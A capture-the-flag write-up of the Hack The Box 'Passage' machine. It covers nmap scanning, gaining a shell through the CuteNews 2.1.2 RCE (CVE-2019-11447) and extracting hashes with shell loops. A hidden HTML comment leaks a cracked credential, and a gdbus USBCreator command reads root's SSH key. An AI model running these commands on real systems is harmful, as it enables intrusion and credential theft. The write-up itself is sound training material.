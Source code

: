 ![](passage_banner.png)

<p align="right">   <a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"><img loading="lazy" alt="x00tex" src="https://www.hackthebox.eu/badge/image/391067"></img></a>
</p>

# Scanning

## Nmap

`ports=$(nmap -Pn -p- --min-rate=1000 -T4 10.10.10.206 | grep open | awk -F / '{print $1}' ORS=',') echo $ports && nmap -p$ports -sV -sC -v -T4 -oA scans/nmap.full 10.10.10.206`
```diff
PORT   STATE SERVICE VERSION
 22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
+80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Passage News
```

## web server

* http server is running cutenews cms
  * **[cutenews](https://cutephp.com/):** CuteNews is a FREE, powerful and easy-to-use news management system based on flat files as a storage with quick installation, search function, file upload management, backup & restore, IP banning, permission levels supporting, flood protection and many more. Moreover Cutenews is UTF-8 fully compatible system.

* in the web page there is a rss feed link which goes here `http://passage.htb/CuteNews/rss.php` this is inside cms directory and thats how we get cms directory.
  * going to cms directory we get login page and also cms version -

    ![](screenshots/cutenews.png)

  * **Version:** 2.1.2
  * **Exploit:** [CVE-2019-11447](https://nvd.nist.gov/vuln/detail/CVE-2019-11447) **RCE** [ExploitDB](https://www.exploit-db.com/exploits/48800)

  * **msf module:** `exploit/unix/webapp/cuteNews_rce`

# web shell

* using exploitDB python script we get the web user shell on the box -

  ![](screenshots/cutenews-exploit.png)

* inside `/var/www/html/CuteNews/cdata/users/` found a file named "lines" contains some password hashes -

      for i in $(cat /var/www/html/CuteNews/cdata/users/lines | grep -v php); do echo $i | base64 -d | grep -E '[0-9a-z]{64}' | grep -oE '[a-z0-9]+@[a-z]+.[a-z]{3}|[0-9a-z]{64}' && echo; done

  ![](screenshots/grep-hashes.png)

  * crack the hash -

        for i in $(cat /var/www/html/CuteNews/cdata/users/lines | grep -v php); do echo $i | base64 -d | grep -E '[0-9a-z]{64}' | grep -oE '[a-z0-9]+@[a-z]+.[a-z]{3}|[0-9a-z]{64}' | tr '\n' ':' | sed 's/.$//' && echo ; done | sed '/^ *$/d'

    ![](screenshots/crack-the-hash.png)
	<!--paul:atlanta1-->

# user shell

## user:paul

* crack the paul password hash and the same user have shell in the box so we can try to su to user paul

  ![](screenshots/su-you-paul.png)
	
* it looks like user paul's .ssh directory coatins user nadav ssh key -

  ![](screenshots/nadav-in-ssh.png)

## user:nadav

* use that private ssh key to get nadav shell -

  ![](screenshots/nadav-is-here.png)

* something in the viminfo file - 

  ![](screenshots/viminfo.png)

  * two config file edited owned by root -

    ![](screenshots/owned-by-root.png)

* searching about these files find something intresting about USBCreator [here](https://unit42.paloaltonetworks.com/usbcreator-d-bus-privilege-escalation-in-ubuntu-desktop/)

  * flaw in the USBCreator D-Bus interface which:

    Allows an attacker with access to a user in the sudoer group to bypass the password security policy imposed by the sudo program. The vulnerability allows an attacker to overwrite arbitrary files with arbitrary content, as root – without supplying a password. This trivially leads to elevated privileges, for instance, by overwriting the shadow file and setting a password for root.

	* D-Bus is a messaging system that is a core system on many Linux systems, allowing for communications between processes running on the same system. This vulnerability is in how this process, interface mistakenly allows for an attacker to trigger it to do something unintended, arbitrary write as root.

  * i don't understand it completely but found the exploit in the end of the article to just get the root

# Privesc

  * using USBCreator D-Bus interface exploit to read root ssh key -

		gdbus call -y -d com.ubuntu.USBCreator -o /com/ubuntu/USBCreator -m com.ubuntu.USBCreator.Image /root/.ssh/id_rsa /tmp/root_rsa true

    ![](screenshots/root-key-on-bus.png)

